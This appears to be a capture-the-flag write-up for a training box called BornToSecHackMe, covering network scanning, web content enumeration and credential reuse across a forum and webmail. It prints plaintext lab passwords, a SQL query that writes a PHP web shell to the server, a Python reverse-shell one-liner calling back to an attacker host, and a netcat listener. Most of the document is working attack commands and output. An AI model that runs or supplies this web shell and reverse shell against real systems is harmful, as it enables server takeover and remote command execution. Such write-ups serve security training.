 ## nmap
scan the network 10.11.0.0/16
```
Nmap scan report for 10.11.100.94
Host is up (0.0013s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## dirb 

DIRB IS a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
![ alt text for screen readers](imgs/dirb_scanHTTP.png "dirb_scanHTTP")
![ alt text for screen readers](imgs/dirb_scanHTTPS.png "dirb_scanHTTP")

## 
from threats posted on the forum i found an intersting one "login problem"
reading the logs , a line says: 'Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2'
    - sounds like someone write a password in username field.
    - tried to connect using ssh users form forum and this password (didn't work)
    - tried to log in to forum with:
    ```
    username: lmezard
    password: !q\]Ej?*5K5cy*AJ
    ```
    - it works , i also got the email from the user profile
    email: laurie@borntosec.net

### The same password was used to log in to webmail
    user: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

+ on the inbox i there's a mail contain credential to a databases 
![ alt text for screen readers](imgs/db_access.png "db credentials")

## access phpMyAdmin

login: root

password: Fg-'kKXBj87E:aJ$

## inject a webshell in sql 
ressource: https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"



export RHOST="10.12.100.143";export RPORT=3412;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

## GET a foothold on the machine 

open a port and start listening for incoming connection

nc -lk -p 3412

encode the pyload and pass it to cmd in : https://10.12.100.143/?cmd=(encoded pyload)



## list users 
laurie@borntosec.net@BornToSecHackMe:~$ getent passwd {1000..60000}
getent passwd {1000..60000}
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash


